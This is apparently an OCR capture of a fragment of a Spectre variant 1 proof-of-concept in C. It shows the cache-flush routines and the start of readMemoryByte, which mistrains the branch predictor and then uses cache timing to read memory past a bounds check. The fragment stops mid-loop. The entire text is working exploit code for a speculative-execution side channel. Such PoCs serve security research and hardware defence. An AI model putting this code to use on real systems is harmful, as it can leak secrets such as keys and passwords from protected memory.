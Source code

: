 ```
    temp &= array2[array1[x] * 512];
  }
}


/********************************************************************
Analysis code
********************************************************************/
#ifdef NOCLFLUSH
#define CACHE_FLUSH_ITERATIONS 2048
#define CACHE_FLUSH_STRIDE 4096
uint8_t cache_flush_array[CACHE_FLUSH_STRIDE * CACHE_FLUSH_ITERATIONS];

/* Flush memory using long SSE instructions */
void flush_memory_sse(uint8_t * addr)
{
  float * p = (float *)addr;
  float c = 0.f;
  __m128 i = _mm_setr_ps(c, c, c, c);

  int k, l;
  /* Non-sequential memory addressing by looping through k by l */
  for (k = 0; k < 4; k++)
    for (l = 0; l < 4; l++)
      _mm_stream_ps(&p[(l * 4 + k) * 4], i);
}
#endif

/* Report best guess in value[0] and runner-up in value[1] */
void readMemoryByte(int cache_hit_threshold, size_t malicious_x, uint8_t value[2], int score[2]) {
  static int results[256];
  int tries, i, j, k, mix_i;
  unsigned int junk = 0;
  size_t training_x, x;
  register uint64_t time1, time2;
  volatile uint8_t * addr;

#ifdef NOCLFLUSH
  int junk2 = 0;
  int l;
  (void)junk2;
#endif

  for (i = 0; i < 256; i++)
    results[i] = 0;
  for (tries = 999; tries > 0; tries--) {

#ifndef NOCLFLUSH
    /* Flush array2[256*(0..255)] from cache */
    for (i = 0; i < 256; i++)
      _mm_clflush( & array2[i * 512]); /* intrinsic for clflush instruction */
#else
    /* Flush array2[256*(0..255)] from cache
       using long SSE instruction several times */
    for (j = 0; j < 16; j++)
      for (i = 0; i < 256; i++)
        flush_memory_sse( & array2[i * 512]);
#endif

    /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
    training_x = tries % array1_size;
    for (j = 29; j >= 0; j--) {
#ifndef NOCLFLUSH
```